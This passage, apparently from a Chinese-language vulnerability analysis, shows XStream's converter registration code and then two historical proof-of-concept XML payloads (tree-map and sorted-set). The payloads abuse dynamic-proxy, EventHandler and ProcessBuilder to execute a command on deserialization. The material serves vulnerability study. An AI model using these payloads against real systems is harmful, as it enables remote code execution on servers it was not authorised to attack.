 ```java
        registerConverter(new CollectionConverter(mapper), PRIORITY_NORMAL);
        registerConverter(new MapConverter(mapper), PRIORITY_NORMAL);
        registerConverter(new TreeMapConverter(mapper), PRIORITY_NORMAL);
        registerConverter(new TreeSetConverter(mapper), PRIORITY_NORMAL);
        registerConverter(new SingletonCollectionConverter(mapper), PRIORITY_NORMAL);
        registerConverter(new SingletonMapConverter(mapper), PRIORITY_NORMAL);
        registerConverter(new PropertiesConverter(), PRIORITY_NORMAL);
        registerConverter((Converter)new EncodedByteArrayConverter(), PRIORITY_NORMAL);

        registerConverter(new FileConverter(), PRIORITY_NORMAL);
        if (JVM.isSQLAvailable()) {
            registerConverter(new SqlTimestampConverter(), PRIORITY_NORMAL);
            registerConverter(new SqlTimeConverter(), PRIORITY_NORMAL);
            registerConverter(new SqlDateConverter(), PRIORITY_NORMAL);
        }
        registerConverter(new DynamicProxyConverter(mapper, classLoaderReference), PRIORITY_NORMAL);
        registerConverter(new JavaClassConverter(classLoaderReference), PRIORITY_NORMAL);
        registerConverter(new JavaMethodConverter(classLoaderReference), PRIORITY_NORMAL);
        registerConverter(new JavaFieldConverter(classLoaderReference), PRIORITY_NORMAL);
}
```

#### 历史版本POC浅析

##### sorted-set、TreeMap

**payload**

```xml
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

```xml

<sorted-set>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```
